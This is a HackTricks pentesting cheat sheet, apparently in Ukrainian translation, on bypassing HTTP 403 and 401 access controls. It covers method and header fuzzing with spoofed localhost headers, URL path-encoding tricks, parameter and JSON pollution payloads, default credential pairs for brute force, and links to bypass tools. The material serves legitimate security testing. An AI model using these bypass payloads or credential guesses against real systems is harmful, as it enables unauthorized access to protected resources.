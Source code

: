 # 403 & 401 Bypasses

{{#include ../../banners/hacktricks-training.md}}

## HTTP Verbs/Methods Fuzzing

Спробуйте використовувати **різні дієслова** для доступу до файлу: `GET, HEAD, POST, PUT, DELETE, CONNECT, OPTIONS, TRACE, PATCH, INVENTED, HACK`

- Перевірте заголовки відповіді, можливо, можна отримати якусь інформацію. Наприклад, **200 відповідь** на **HEAD** з `Content-Length: 55` означає, що **дієслово HEAD може отримати інформацію**. Але вам все ще потрібно знайти спосіб ексфільтрувати цю інформацію.
- Використання HTTP заголовка, такого як `X-HTTP-Method-Override: PUT`, може переписати використане дієслово.
- Використовуйте **`TRACE`** дієслово, і якщо вам пощастить, можливо, у відповіді ви також зможете побачити **заголовки, додані проміжними проксі**, які можуть бути корисними.

## HTTP Headers Fuzzing

- **Змініть заголовок Host** на деяке довільне значення ([це спрацювало тут](https://medium.com/@sechunter/exploiting-admin-panel-like-a-boss-fc2dd2499d31))
- Спробуйте [**використати інші User Agents**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/User-Agents/UserAgents.fuzz.txt) для доступу до ресурсу.
- **Fuzz HTTP Headers**: спробуйте використовувати HTTP Proxy **Headers**, HTTP Authentication Basic та NTLM brute-force (тільки з кількома комбінаціями) та інші техніки. Для цього я створив інструмент [**fuzzhttpbypass**](https://github.com/carlospolop/fuzzhttpbypass).

- `X-Originating-IP: 127.0.0.1`
- `X-Forwarded-For: 127.0.0.1`
- `X-Forwarded: 127.0.0.1`
- `Forwarded-For: 127.0.0.1`
- `X-Remote-IP: 127.0.0.1`
- `X-Remote-Addr: 127.0.0.1`
- `X-ProxyUser-Ip: 127.0.0.1`
- `X-Original-URL: 127.0.0.1`
- `Client-IP: 127.0.0.1`
- `True-Client-IP: 127.0.0.1`
- `Cluster-Client-IP: 127.0.0.1`
- `X-ProxyUser-Ip: 127.0.0.1`
- `Host: localhost`

Якщо **шлях захищений**, ви можете спробувати обійти захист шляху, використовуючи ці інші заголовки:

- `X-Original-URL: /admin/console`
- `X-Rewrite-URL: /admin/console`

- Якщо сторінка **за проксі**, можливо, саме проксі заважає вам отримати доступ до приватної інформації. Спробуйте зловживати [**HTTP Request Smuggling**](../../pentesting-web/http-request-smuggling/) **або** [**hop-by-hop заголовками**](../../pentesting-web/abusing-hop-by-hop-headers.md)**.**
- Fuzz [**спеціальні HTTP заголовки**](special-http-headers.md), шукаючи різні відповіді.
- **Fuzz спеціальні HTTP заголовки** під час fuzzing **HTTP Methods**.
- **Видаліть заголовок Host**, і, можливо, ви зможете обійти захист.

## Path **Fuzzing**

Якщо _/path_ заблоковано:

- Спробуйте використовувати _**/**_**%2e/path \_(якщо доступ заблоковано проксі, це може обійти захист). Спробуйте також**\_\*\* /%252e\*\*/path (подвійне кодування URL)
- Спробуйте **Unicode обхід**: _/**%ef%bc%8f**path_ (кодування URL символів схоже на "/"), тому при повторному кодуванні це буде _//path_, і, можливо, ви вже обійшли перевірку назви _/path_
- **Інші обходи шляху**:
- site.com/secret –> HTTP 403 Forbidden
- site.com/SECRET –> HTTP 200 OK
- site.com/secret/ –> HTTP 200 OK
- site.com/secret/. –> HTTP 200 OK
- site.com//secret// –> HTTP 200 OK
- site.com/./secret/.. –> HTTP 200 OK
- site.com/;/secret –> HTTP 200 OK
- site.com/.;/secret –> HTTP 200 OK
- site.com//;//secret –> HTTP 200 OK
- site.com/secret.json –> HTTP 200 OK (ruby)
- Використовуйте весь [**цей список**](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Unicode.txt) у наступних ситуаціях:
- /FUZZsecret
- /FUZZ/secret
- /secretFUZZ
- **Інші обходи API:**
- /v3/users_data/1234 --> 403 Forbidden
- /v1/users_data/1234 --> 200 OK
- {“id”:111} --> 401 Unauthriozied
- {“id”:\[111]} --> 200 OK
- {“id”:111} --> 401 Unauthriozied
- {“id”:{“id”:111\}} --> 200 OK
- {"user_id":"\<legit_id>","user_id":"\<victims_id>"} (JSON Parameter Pollution)
- user_id=ATTACKER_ID\&user_id=VICTIM_ID (Parameter Pollution)

## **Parameter Manipulation**

- Змініть **значення параметра**: З **`id=123` --> `id=124`**
- Додайте додаткові параметри до URL: `?`**`id=124` —-> `id=124&isAdmin=true`**
- Видаліть параметри
- Переставте параметри
- Використовуйте спеціальні символи.
- Виконайте граничне тестування параметрів — надайте значення, такі як _-234_ або _0_ або _99999999_ (просто кілька прикладів).

## **Protocol version**

Якщо ви використовуєте HTTP/1.1 **спробуйте використовувати 1.0** або навіть перевірте, чи **підтримує 2.0**.

## **Other Bypasses**

- Отримайте **IP** або **CNAME** домену та спробуйте **зв'язатися з ним безпосередньо**.
- Спробуйте **навантажити сервер**, надсилаючи звичайні GET запити ([Це спрацювало для цього хлопця з Facebook](https://medium.com/@amineaboud/story-of-a-weird-vulnerability-i-found-on-facebook-fc0875eb5125)).
- **Змініть протокол**: з http на https, або з https на http
- Перейдіть до [**https://archive.org/web/**](https://archive.org/web/) і перевірте, чи був у минулому цей файл **всесвітньо доступний**.

## **Brute Force**

- **Вгадайте пароль**: протестуйте наступні загальні облікові дані. Чи знаєте ви щось про жертву? Або назву виклику CTF?
- [**Brute force**](../../generic-hacking/brute-force.md#http-brute)**:** Спробуйте базову, дайджестну та NTLM аутентифікацію.
```:Common creds
admin    admin
admin    password
admin    1234
admin    admin1234
admin    123456
root     toor
test     test
guest    guest
```
## Автоматичні інструменти

- [https://github.com/lobuhi/byp4xx](https://github.com/lobuhi/byp4xx)
- [https://github.com/iamj0ker/bypass-403](https://github.com/iamj0ker/bypass-403)
- [https://github.com/gotr00t0day/forbiddenpass](https://github.com/gotr00t0day/forbiddenpass)
- [Burp Extension - 403 Bypasser](https://portswigger.net/bappstore/444407b96d9c4de0adb7aed89e826122)
- [Forbidden Buster](https://github.com/Sn1r/Forbidden-Buster)
- [NoMoreForbidden](https://github.com/akinerk/NoMoreForbidden)


{{#include ../../banners/hacktricks-training.md}}
